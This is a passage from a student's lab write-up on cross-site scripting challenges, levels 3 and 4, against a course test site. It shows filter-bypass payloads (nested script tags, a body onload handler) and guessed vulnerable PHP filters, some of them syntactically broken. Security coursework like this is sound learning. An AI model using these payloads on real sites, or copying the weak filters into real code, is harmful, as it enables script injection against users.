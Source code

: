 ```
input=<scr<sc<script>ript>ipt>alert('Level 3 - Hacked by Sruthi Sridhar Bopparthi')</scr</sc</script>>>
```

Possible Source code:
```
	$input = echo $_POST['input'];
	$input = str_replace(['<script>', '</script>'], '', $input)
```

![Figure 5: Level 3 ](Images/Level3.png) *********DO IT

### Level 4

URL : [http://waph-hackathon.eastus.cloudapp.azure.com/xss/level4/echo.php](URL : http://waph-hackathon.eastus.cloudapp.azure.com/xss/level4/echo.php)

I used the onload() event of the `<body>` tag to run the XSS script in this case where the `<script>` element is fully filtered, even if it's broken and concatenated. The script sends out an alert when the page loads by embedding itself inside the onload() event. By evading the filter, harmful code can be injected without depending on the `<script>` tag.

```
input=<body onload="alert('Level 4 - Hacked by Sruthi Sridhar Bopparthi')">This website is hacked</body>
```

Possible Source code:
```
	$input = $_GET['input']
	if (preg_match('/<script\b[^>]*>(.*?)<\/script>/is', $input)) 
	{
		exit('{"error": "No \'script\' is allowed!"}');
	}
	else 
		echo($input);

```
